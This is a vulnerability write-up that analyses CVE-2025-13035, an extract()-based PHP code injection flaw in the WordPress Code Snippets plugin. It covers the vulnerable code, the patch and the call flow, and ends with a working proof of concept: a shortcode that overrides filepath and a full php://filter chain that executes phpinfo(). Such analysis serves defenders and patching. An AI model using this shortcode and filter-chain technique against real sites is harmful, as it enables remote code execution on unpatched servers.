

# CVE-2025-13035 Analysis & POC


<!--more-->

## CVE & Basic Info

The WordPress Code Snippets plugin contains a PHP Code Injection vulnerability in all versions up to and including 3.9.1. The root cause is that the plugin uses `extract()` on attacker-controlled shortcode attributes inside the `evaluate_shortcode_from_flat_file` method, which can be used to overwrite the `$filepath` variable and then pass it into `require_once`. This allows an authenticated attacker with Contributor privileges or higher to execute arbitrary PHP code on the server via the `[code_snippet]` shortcode by leveraging PHP filter chains if they can trick an administrator into enabling the "Enable file-based execution" option and creating at least one active Content snippet.

* **CVE ID**: [CVE-2025-13035](https://www.cve.org/CVERecord?id=CVE-2025-13035)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 3.9.1
* **Patched Versions**: 3.9.2
* **CVSS severity**: Medium (8.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Code Snippets Plugin](https://wordpress.org/plugins/code-snippets/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Code Snippets**:

  * `3.9.1` – **vulnerable**
  * `3.9.2` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

**In the vulnerable version (v3.9.1):**

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[11,12]}
private function evaluate_shortcode_from_flat_file( $filepath, array $atts ): string {
    ob_start();

    ( function( $atts ) use ( $filepath ) {
        /**
            * Avoiding extract is typically recommended, however in this situation we want to make it easy for snippet
            * authors to use custom attributes.
            *
            * @phpcs:disable WordPress.PHP.DontExtract.extract_extract
            */
        extract( $atts );
        require_once $filepath;
    } )( $atts );

    return ob_get_clean();
}
```

In `evaluate_shortcode_from_flat_file`, an **anonymous function** is defined and immediately invoked (IIFE). It receives `$atts` (the shortcode attributes array) and uses `$filepath` from the outer scope via `use ($filepath)`.

The `extract($atts)` statement converts each element in the `$atts` array into a separate variable in the current scope's symbol table.

Example:

```php
$atts = ['color' => 'blue', 'size' => 'large'];
extract($atts);
// Now we have $color = 'blue', $size = 'large'
```

Internally, PHP manages variables through **zval containers**:

> [!QUOTE]
> A PHP variable is stored in a container called a "zval". A zval container contains, besides the variable's type and value, two additional bits of information. The first is called "is_ref" and is a boolean value indicating whether or not the variable is part of a "reference set". With this bit, PHP's engine knows how to differentiate between normal variables and references. Since PHP allows user-land references, as created by the & operator, a zval container also has an internal reference counting mechanism to optimize memory usage. This second piece of additional information, called "refcount", contains how many variable names (also called symbols) point to this one zval container. All symbols are stored in a symbol table, of which there is one per scope. There is a scope for the main script (i.e., the one requested through the browser), as well as one for every function or method.

When `extract()` runs:

* Each element in `$atts` is mapped to a new variable.
* These variables point to the same **zval** as the value in the array.
* This increases the **refcount** (number of variable names referencing the same value).
* When the scope ends, the symbol table is destroyed, refcount decreases, and memory is freed.

> [!BUG]
> **Variable name collision:**
> If `$atts` contains a key that matches an existing variable in the scope (e.g., `"filepath"`), that variable will be overwritten.
>
> ```php
> $atts = ['filepath' => '/tmp/malicious.php'];
> extract($atts);
> require_once $filepath; // now loads the file from $atts, not the original
> ```
>
> This is the root cause of the vulnerability: an attacker can inject `"filepath"` to control which file is `require_once`.

**Patch (v3.9.2):**


In the patch, the `extract()` call was added with the `EXTR_SKIP` option.

* This ensures that if `$atts` has a key matching an existing variable, the original variable is not overwritten.
* Thus, `$filepath` from the outer scope remains safe, eliminating the risk of being replaced by `$atts` data.

## Analysis

The plugin registers a shortcode:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[2]}
public const CONTENT_SHORTCODE = 'code_snippet';
add_shortcode( self::CONTENT_SHORTCODE, [ $this, 'render_content_shortcode' ] );
```

When this shortcode appears in post/page content, WordPress calls the `render_content_shortcode` callback:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[3,24,31]}
public function render_content_shortcode( array $atts ): string {
    $atts = $this->convert_boolean_attribute_flags( $atts, [ 'network', 'php', 'format', 'shortcodes', 'debug' ] );
    $original_atts = $atts;

    $atts = shortcode_atts(
        [
            'id'         => 0,
            'snippet_id' => 0,
            'network'    => false,
            'php'        => false,
            'format'     => false,
            'shortcodes' => false,
            'debug'      => false,
        ],
        $atts,
        self::CONTENT_SHORTCODE
    );

    $id = 0 !== intval( $atts['snippet_id'] ) ? intval( $atts['snippet_id'] ) : intval( $atts['id'] );
    if ( ! $id ) {
        return $this->invalid_id_warning( $id );
    }

    $snippet = $this->get_snippet( $id, (bool) $atts['network'], 'html' );

    // Render the source code if this is not a shortcode snippet.
    if ( 'content' !== $snippet->scope ) {
        return $snippet->id ? $this->render_snippet_source( $snippet ) : $this->invalid_id_warning( $snippet->id );
    }
    ...
    $content = $this->evaluate_shortcode_content( $snippet, $original_atts );
    ...
}
```

The function creates a **Snippet** object by calling `get_snippet`, which accepts three parameters: the snippet ID, a boolean indicating whether network mode is used, and the desired format (**html**). The result is a **Snippet** object containing all necessary data for further processing.

Next, it checks the snippet's **scope**. If the snippet is **not** of type **content** (`html`)

the plugin does not process the content and instead returns the snippet's source code.

The `evaluate_shortcode_content()` function is called to process the shortcode content:

```php {title="class-front-end.php v3.9.1" data-open=true hl_lines=[15]}
protected function evaluate_shortcode_content( Snippet $snippet, array $atts ): string {
    if ( empty( $atts['php'] ) ) {
        return $snippet->code;
    }

    if ( ! Snippet_Files::is_active() ) {
        return $this->evaluate_shortcode_from_db( $snippet, $atts );
    }

    $network = DB::validate_network_param( $snippet->network );
    $table_name = Snippet_Files::get_hashed_table_name( code_snippets()->db->get_table_name( $network ) );
    $filepath = $this->build_snippet_flat_file_path( $table_name, $snippet );

    return file_exists( $filepath )
        ? $this->evaluate_shortcode_from_flat_file( $filepath, $atts )
        : $this->evaluate_shortcode_from_db( $snippet, $atts );
}
```

It checks whether the `php` attribute exists. If not, it returns the snippet's original code without execution.
If `php` exists but the storage file does not, it falls back to evaluating directly from the database.

The storage file is declared:

```php {title="class-snippet-files.php v3.9.1" data-open=true hl_lines=[]}
private const ENABLED_FLAG_FILE = 'flat-files-enabled.flag';
```

To prevent the function from returning early, the administrator must enable the "Enable file-based execution" option in the admin panel:



This creates the storage file inside `wp-content/code-snippets`:


Once the file exists, the function determines the snippet's network information, retrieves the hashed table name, and builds the path to the snippet content file assigned to `$filepath`.

If `$filepath` exists, the function calls `evaluate_shortcode_from_flat_file( $filepath, $atts )` where the vulnerability occurs.

> [!INFO]
> The vulnerability is published with Contributor privileges because this is the minimum level required to insert a shortcode into a post.

## Flow


graph TD

A["Contributor inserts [code_snippet] shortcode"] --> B["WordPress calls render_content_shortcode()"]
B --> C["convert_boolean_attribute_flags()"]
C --> D["shortcode_atts(): merge defaults into $atts"]
D --> E["Determine snippet_id → if invalid → invalid_id_warning()"]

E --> F["get_snippet(id, network, 'html') → create Snippet object"]
F --> G{"snippet.scope == 'content'?"}

G -- No --> H["render_snippet_source()"]
H --> Z["End"]

G -- Yes --> I["evaluate_shortcode_content(snippet, original_atts)"]

I --> J{"original_atts['php'] enabled?"}
J -- No --> K["Return snippet->code"] --> Z

J -- Yes --> L{"Snippet_Files::is_active()?"}

L -- No --> M["evaluate_shortcode_from_db()"] --> Z

L -- Yes --> N["Build file path: build_snippet_flat_file_path()"]
N --> O{"Does file exist?"}

O -- No --> M

O -- Yes --> P["evaluate_shortcode_from_flat_file(filepath, atts)"]

P --> Q["extract(atts) inside IIFE"]
Q --> R{"Do atts contain variable-name collisions (e.g., 'filepath')?"}

R -- No --> S["require_once filepath (safe)"] --> Z

R -- Yes --> T["Internal variable overwritten → filepath replaced"]
T --> U["require_once attacker-controlled file"]
U --> V["RCE achieved"]
V --> Z


## Proof of Concept (PoC)

1. Administrator enables the "Enable file-based execution" option.
2. Contributor inserts the following shortcode into a post with `snippet_id` pointing to a Snippet of type HTML (`content`):

```
[code_snippet snippet_id=4 php=1 filepath=/path/to/file]
```

Here the attacker has full control over the `filepath` variable. This allows using PHP stream wrappers (e.g., filter chains) to achieve code execution because:

* `require_once` only checks whether the input is a valid PHP path; it attempts to load **any** provided stream, not limited to physical files.
* PHP filter chains can transform the stream content so PHP interprets the final output as valid PHP code. Once the filtered content is passed to `require_once`, PHP executes it.
* Many wrappers such as `http://` or `ftp://` are restricted by default `allow_url_include` settings, but internal wrappers like `php://filter` are unaffected by this limitation.

> [!INFO]
> A **filter chain** in PHP allows chaining multiple stream filters to process data when reading or writing from a file/stream. It works using the special wrapper: `php://filter`.
>
> This technique is used in CTF competitions, based on the following principles:
>
> * `php://filter`: allows attaching filters to a stream (here `php://temp`).
> * Filter chain: filters are concatenated with `|`. Data passes through each filter from left to right.
> * Main filters in the chain:
>
>   * `convert.iconv.<from>`.`<to>`: converts encoding from one charset to another.
>   * `convert.base64-encode` / `convert.base64-decode`: encode or decode base64.
>
> By combining dozens of filters, data is transformed multiple times: encode → re-encode → decode → encode → … until the end.
> Reference: [https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it)

Run the [script](https://github.com/synacktiv/php_filter_chain_generator/tree/main) to generate a PHP Filter Chain:

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Assign the generated value to `filepath`.


## Conclusion

The vulnerability in the Code Snippets plugin originates from using `extract()` without protection, allowing internal variables to be overwritten and arbitrary file execution via `require_once`. When combined with the “Enable file-based execution” option and the `[code_snippet]` shortcode, a Contributor-level user can trigger unintended PHP code execution. The patch mitigates this by using `EXTR_SKIP`, ensuring sensitive variables are not overwritten during shortcode processing.

## Key Takeaways

* Using `extract()` without controlling variable names is highly risky, especially when input comes from users.
* PHP stream wrappers, including filter chains, can be powerful tools for converting data into executable code.
* A seemingly harmless option like “Enable file-based execution” can significantly expand the attack surface.
* WordPress shortcodes must be carefully handled since Contributors can use them in post content.
* Adding `EXTR_SKIP` in the patch is a simple but effective measure to prevent overwriting sensitive variables.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Code Snippets Plugin <= 3.9.1 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/code-snippets/vulnerability/wordpress-code-snippets-plugin-3-9-1-authenticated-contributor-php-code-injection-via-extract-and-php-filter-chains-vulnerability)

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-27-cve-2025-13035/  

